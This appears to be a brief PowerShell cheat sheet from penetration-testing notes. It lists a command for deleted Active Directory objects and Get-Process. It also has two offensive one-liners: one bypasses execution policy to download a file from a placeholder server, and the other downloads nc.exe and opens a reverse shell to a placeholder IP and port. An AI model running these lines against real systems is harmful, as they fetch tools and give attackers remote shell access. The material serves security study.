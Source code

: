 # powershell

% powershell, command

## Get file in trash
```
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```
Get-Process
```

# download with powershell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "(New-Object System.Net.WebClient).DownloadFile('http://<server>/<source_file>','<dest_file>')"
```

## download and execute with powershell
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile New-Object System.Net.WebClient.DownloadFile('<url_file>','nc.exe'); nc.exe <ip> <port> -e cmd.exe
```